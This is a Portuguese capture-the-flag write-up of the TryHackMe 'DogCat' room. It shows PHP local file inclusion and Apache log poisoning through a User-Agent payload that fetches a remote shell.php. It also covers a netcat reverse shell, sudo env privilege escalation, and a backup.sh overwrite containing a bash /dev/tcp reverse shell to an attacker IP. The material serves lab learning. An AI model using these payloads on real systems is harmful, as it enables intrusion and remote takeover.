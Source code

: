# TryHackMe - DogCat

**Índice**

Lista de verificação:

- [ ]  Iniciar VPN TryHackMe
- [ ]  Varredura de Portas com “nmap -A [IP]”.
- [ ]  Verificar código-fonte da página.
- [ ]  Verificar se PHP está em execução.
- [ ]  Verificar a necessidade de encodar URL para RCE ou LFI
- [ ]  Verificar requisições no BurpSuite

## Sobre

Resolução da Room DogCat - TryHackMe.

## Informações

[https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Execução

Iniciamos um PortScan com `nmap -A [IP]` no HOST:

![Captura de tela de 2023-06-28 21-03-29.png]([https://www.notion.so/maarckz/TryHackMe-DogCat-eafaeda6ff944b2c8408269d0b76c9a4?pvs=4#66e67b11e3084770b1d546bbe43a1460](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F169bdeda-d689-4b77-a7d6-cb9103324a11%2FCaptura_de_tela_de_2023-06-28_21-03-29.png?table=block&id=66e67b11-e308-4770-b1d5-46bbe43a1460&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1520&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2))

O site contém 2 botões “**A dog”** e “**A cat**”, e o código-fonte aparentemente executa um arquivo PHP de acordo com o botão pressionado.

![Captura de tela de 2023-06-28 21-06-49.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-06-49.png)

![Captura de tela de 2023-06-28 21-08-21.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-08-21.png)

Nesse caso podemos fazer um “teste” PHP adicionando um carácter no ***`/?view=dog`***

![Captura de tela de 2023-06-28 21-11-11.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-11-11.png)

Como esperado ele diz não poder encontrar o arquivo ***dog*.php*** para executar a função *`include()`.*

Aqui podemos esperar um possível RCE. Podemos usar a URL para navegar e executar arquivos PHP, para teste podemos tentar fazer a mesma coisa para ***cat*** e ***index***. Nesse caso específico, “dog” é como se fosse um argumento necessário para “bypassar” a função `include()`, para depois fazermos o “parse” utilizando **`/../`**

> *No contexto da exploração de uma vulnerabilidade RCE/LFI, pode-se usar 
"http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index" para contornar restrições impostas pelo site.*
> 

No caso do ***`index.php` ,***durante a requisição ele espera alguma constante a ser declarada.

![Captura de tela de 2023-06-28 21-23-27.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-23-27.png)

![Captura de tela de 2023-06-28 21-23-36.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-23-36.png)

Sabemos que conseguimos executar arquivos .php em `/var/www/html/` , sendo assim podemos tentar fazer a leitura de alguns arquivos do sistema/servidor.

Para conseguimos ter acesso a algum arquivo, temos que ter em mente a navegação via terminal por diretorios linux. Sabemos que nossa base é `?view=dog/../`  e estamos no diretório `/var/www/html/` então usamos `../../../` para irmos ao diretório raíz (/) , e a partir daí buscar nosso arquivo.

Após escolher o arquivo (aí tem que saber a localização de cabeça rs), pedimos para que seja escrito na tela com o **&ext=**  `[IP]/?view=dog/../../../../etc/passwd&ext`= .

### Porque **ext**?

Após verificar o `**dog.php**` usando filtro para imprimir o código em **BASE64** `?view=php://filter /convert.base64-encode/resource=` em `dog/../index` podemos verificar o seguinte código:

---

```php
<!DOCTYPE HTML>
<html>
<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>
<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>
</html>
```

---

No trecho `$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';` podemos ver que é adicionado **.php** ao final do que estiver na string mencionada. Nesse caso ao digitar **dog&ext,** estamos querendo dizer **dog.php**

---

![Captura de tela de 2023-06-28 22-11-09.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-11-09.png)

---

Sabendo que conseguimos ler arquivos, podemos fazer um **LogPoison** ([link](https://rodolfomarianocy.medium.com/aprenda-a-fazer-log-poisoning-em-ssh-e-apache-via-lfi-65f08a2f7d1d)).

> *Trata-se de sujar logs de serviços e através de RCE e forçar uma execução e uma resposta vinda do servidor, como uma execução de código remoto que vai interpretar e executar nosso código PHP malicioso.*
> 

Em primeiro lugar, sabemos que o serviço WEB que roda neste host é um **Apache**, por padrão o diretório de logs fica localizado em `var/log/apache2/access.log` , e para acessar podemos usar `[IP]/?view=dog/../../../../../../../var/log/apache2/access.log&ext=` 

---

![Captura de tela de 2023-06-28 22-40-58.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-40-58.png)

---

Agora podemos testar o log, dando um comando qualquer em `?view=` . Neste caso digitei **ls -la** e observando o código-fonte da página, podemos ver uma nova requisição armazenada no `access.log` .

![Captura de tela de 2023-06-29 19-58-33.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_19-58-33.png)

O log armazena IP, DT/HR, o tipo de requisição, caminho, e o **UserAgent**. Aqui podemos injetar um arquivo PHP malicioso para obtermos uma SHELL Reversa. ([link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php))

Após configurar devidamente o shell.php, inicio um serviço “WebHTTP” utilizando o Python3:
`sudo python3 -m http.server 80`

E utilizando o BurpSuite, altero o **UserAgent** da requisição do Access.log para o seguinte:

`<?php file_put_contents('shell.php',file_get_contents('http://[IP]/shell.php'))?>`

![Captura de tela de 2023-06-29 20-17-40.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-17-40.png)

---

Nesse momento nosso serviço Web confirma o acesso ao arquivo.

![Captura de tela de 2023-06-29 20-38-22.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-38-22.png)

Agora é só obter a Shell Reversa com o host. Podemos fazer isso usando o NetCat: 

`nc -nlvp 5555`

E pronto! Temos acesso ao Host com sucesso!

![Captura de tela de 2023-06-29 20-40-28.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-40-28.png)

Utilizando o comando `find / -name **flag** 2>/dev/null` , podemos começar a encontrar as Flags.

![Captura de tela de 2023-06-29 20-47-12.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-47-12.png)

Ok, agora vamos ver o que nosso usuário pode executar …

![Captura de tela de 2023-06-29 20-50-26.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-50-26.png)

Ótimo! podemos executar o env como superusuario sem a necessidade de senha. Para facilitar, podemos acessar o GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para pesquisar os comandos.

![Captura de tela de 2023-06-29 20-52-39.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-52-39.png)

---

![Captura de tela de 2023-06-29 20-53-37.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-53-37.png)

Finalmente! Como ROOT tudo fica mais fácil. Agora podemos terminar nossa ROOM encontrando as FLAGS restantes usando o mesmo comando que antes (`find / -name **flag** 2>/dev/null`), só que agora como ROOT.

### E a Flag4?!

Boa pergunta rs

Precisei colar de um Walkthrough do canal “[Optional](https://www.youtube.com/watch?v=zGDbi15Jkqw)” no YouTube, e lá ele mostra um arquivo em `/opt/backups/backup.tar`

Pelo que entendi esse é um container Docker. E pela última modificação do arquivo, ele deve ser executado frequentemente. Então seguindo os passos do “Optional”, como ROOT, sobrescrevi o `backup.sh` usando o comando echo e tive que aguardar uns minutinhos:

`echo -e "#!/bin/bash\nbash -i >& /dev/tcp/10.13.5.224/5555 0>&1" > backup.sh`

![Captura de tela de 2023-06-29 21-25-30.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-25-30.png)

---

E por fim a Flag4 !

---

![Captura de tela de 2023-06-29 21-26-07.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-26-07.png)

---

Obrigado por ler, espero que tenha aprendido alguma coisa :)
